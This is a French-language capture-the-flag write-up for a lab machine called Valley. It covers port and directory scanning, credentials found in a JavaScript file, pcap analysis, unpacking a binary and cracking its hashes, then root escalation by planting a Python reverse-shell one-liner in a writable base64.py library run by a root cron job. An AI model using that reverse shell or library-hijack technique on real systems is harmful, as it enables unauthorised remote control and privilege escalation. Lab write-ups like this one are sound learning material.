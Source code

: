 ## TAGS : #WEB #PRIVESC #RE 

nmap 10.10.79.170
* SSH open
* HTTP open

Scan gobuster :
```
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/gallery              (Status: 301) [Size: 314] [--> http://10.10.79.170/gallery/]
/pricing              (Status: 301) [Size: 314] [--> http://10.10.79.170/pricing/]
/server-status        (Status: 403) [Size: 277]
/static               (Status: 301) [Size: 313] [--> http://10.10.79.170/static/]

```

Crawl sur static :
```
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/00                   (Status: 200) [Size: 127]
/3                    (Status: 200) [Size: 421858]
/11                   (Status: 200) [Size: 627909]
/5                    (Status: 200) [Size: 1426557]
/6                    (Status: 200) [Size: 2115495]
/10                   (Status: 200) [Size: 2275927]
/12                   (Status: 200) [Size: 2203486]
/15                   (Status: 200) [Size: 3477315]
/9                    (Status: 200) [Size: 1190575]
/1                    (Status: 200) [Size: 2473315]
/13                   (Status: 200) [Size: 3673497]
/14                   (Status: 200) [Size: 3838999]
/2                    (Status: 200) [Size: 3627113]
/7                    (Status: 200) [Size: 5217844]
/4                    (Status: 200) [Size: 7389635]
/8                    (Status: 200) [Size: 7919631]
```
L'id de la première image est 1, donc 00 = suspect 
![[Pasted image 20240307192513.png]]

----------------------------------------------------------------------------------------------------------------------------------
On se rend sur http://10.10.79.170/dev1243224123123/
On vérifie les codes sources 
![[Pasted image 20240307192545.png]]

----------------------------------------------------------------------------------------------------------------------------------
On trouve les identifiants sur le fichier dev.js 
username === "siemDev" && password === "california"
![[Pasted image 20240307192822.png]]


![[Pasted image 20240307192947.png]]
Un port non commun est mentionné pour le protocole FTP, je relance un scan sur les 65535
`nmap -p- 10.10.79.170`
La commande nous retourne une nouvelle entrée : 
37370/tcp open  unknown

----------------------------------------------------------------------------------------------------------------------------------
On essaye de se connecter en ftp en utilisant le même mot de passe car "stop reusing credentials" est mentioné dans la devnote 
ftp -p -P 37370 10.10.79.170
Name : siemDev
Pass : california
Contenu du serveur FTP : 
* siemFTP.pcapng
* siemHTTP1.pcapng 
* siemHTTP2.pcapng 

#### siemFTP.pcapng
login => anonymous:anonymous

#### siemHTTP1.pcapng
rien ?

#### siemHTTP2.pcapng
File > export objects > HTTP 
On save tout et on vérifie, celui qui nous parait le plus évident c'est les fichiers provenant de l'IP locale, qui ont l'air de former un site web
![[Pasted image 20240307195446.png]]

Sur les index, on trouve deux pages de connexion qui ne mènent à rien et une page qui contient des identifiants : 
Il ne s'agit pas d'identifiants sur la page vue précedemment car compte unique été écrit en clair dans le code source, j'en déduis qu'il s'agit du compte pour se connecter en SSH.
![[Pasted image 20240307200537.png]]

  # <strong><font style="color:red"  font size=6px>🔴🎯<u>FLAG 1 </u>🔴🎯 </font></strong> 
![[Pasted image 20240307200712.png]]

----------------------------------------------------------------------------------------------------------------------------------
On trouve un executable dans le dossier home "valleyAuthenticator"
aide sur internet il faut utiliser UPX  

Utilisation d'upx pour unpack l'executable : 
`upx -d valleyAuthenticator`
On peut maintenant l'executer mais il nous faut des identifiants : 
![[Pasted image 20240307204847.png]]

----------------------------------------------------------------------------------------------------------------------------------
On utilise `strings valleyAuthenticator > valleyAuthenticatorOut` puis on l'ouvre avec nano, on recherche "username", on trouve deux hash qu'on va save dans un autre fichier. On utilise par la suite john the ripper pour récup les mots de passes : 
valley:liberty123
![[Pasted image 20240307205936.png]]
![[Pasted image 20240307211024.png]]
On se connecte ensuite avec `su valley`

----------------------------------------------------------------------------------------------------------------------------------
On vérifie les cronjobs avec cat /etc/crontab et on constate un script python qui s'execute toutes les minutes :

![[Pasted image 20240307211845.png]]
![[Pasted image 20240307211859.png]]

----------------------------------------------------------------------------------------------------------------------------------
Le script importe une librairie base64, on cherche celle-ci : 
`locate base64 | grep -iF "/base64.py"`
![[Pasted image 20240307212315.png]]

Résumé :
On sais que le script **photosEncrypt** se lance en droits root toutes les minutes
On ne peut **pas** modifier le script python
Le script utilise une librairie sur laquelle on peut écrire 
On peut donc mettre un **reverse shell** sur la librairie ( **base64.py** ) pour que lors de l'importation de celle-ci par la tache **photosEncrypt.py**, le **revshell** se lance avec les même droits que **photosEncrypt.py**

Sur la victime : 
* nano /usr/lib/python3.8/base64.py 
	* (revshells.com) : `import os,pty,socket;s=socket.socket();s.connect(("10.8.97.183",8544));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")`
Sur l'attaquant : 
* nc -lvnp 8544

![[Pasted image 20240307213419.png]]

Flag user = user.txt 
Déduction :
* flag root = root.txt
* Donc : 
	* find / -type f -name "flag"

  # <strong><font style="color:red"  font size=6px>🔴🎯<u>FLAG 2</u>🔴🎯 </font></strong> 
![[Pasted image 20240307213953.png]]